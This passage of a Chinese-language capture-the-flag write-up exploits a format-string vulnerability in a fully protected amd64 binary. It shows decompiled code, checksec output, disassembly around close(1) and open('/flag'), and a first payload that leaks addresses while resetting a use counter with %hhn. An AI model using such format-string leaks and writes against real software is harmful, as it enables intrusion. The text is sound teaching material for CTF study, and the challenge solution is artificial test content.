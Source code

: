 ```c
  }
  *a1 = 1;
  read_n(&format, 40);
  printf(&format, 40LL);
  return __readfsqword(0x28u) ^ v3;
}
```

用完会把相应的变量置1。

此外，这道题保护全开：

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

太有意思啦~

### 解题思路

保护全开所以没法改GOT表，还需要泄漏地址绕过地址随机化保护。

leak那个函数跟开玩笑似的（哼，就不用它）。

所以攻击思路就是利用好**格式化字符串漏洞**：

1. 先泄漏程序基址和栈地址
2. 然后再修改程序返回地址，跳过`close(1)`，直接打印flag

```nasm
0x00000f48      85c0           test eax, eax
0x00000f4a      7554           jne 0xfa0
0x00000f4c      bf01000000     mov edi, 1
0x00000f51      e832faffff     call sym.imp.close

0x00000f56      be00000000     mov esi, 0
0x00000f5b      488d3d170200.  lea rdi, str.flag           ; 0x1179 ; "/flag"
0x00000f62      b800000000     mov eax, 0
0x00000f67      e844faffff     call sym.imp.open
0x00000f6c      89459c         mov dword [rbp - 0x64], eax
0x00000f6f      488d4da0       lea rcx, [rbp - 0x60]
```

> 直接跳到0x00000f56这里，绕过close(1)

问题在于格式化字符串漏洞只能用一次，而完成上述攻击至少需要利用**两次**。

这也不难，因为限制次数的变量也在**栈中**，所以只要在泄漏地址的同时，把限制次数的变量清零即可。

payload1:

```python
sl('%7$hhn%17$p.%16$p')
```
